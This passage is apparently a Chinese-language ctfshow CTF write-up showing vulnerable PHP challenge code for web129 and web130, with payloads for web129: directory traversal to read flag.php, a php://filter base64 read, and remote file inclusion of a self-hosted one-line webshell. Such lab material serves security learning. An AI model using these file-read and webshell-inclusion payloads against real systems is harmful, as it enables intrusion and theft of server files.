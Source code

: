 > ?f1=_&f2=get_defined_vars



## web129

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

**解法一：**

利用目录穿越漏洞绕过 stripos 检测字符

> stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）

`paylaod: ?f=/ctfshow/../../../../../../../../../var/www/html/flag.php`

**解法二：**

php伪协议绕过

`payload: ?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php`
filter伪协议支持多种编码方式，无效的就被忽略掉了。

**解法三：**

远程文件包含，在自己的服务器上写个一句话，然后保存为txt文档。
例如 f=http://url/xxx.txt?ctfshow
其中xxx.txt为一句话



## web130

  ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}

  ```
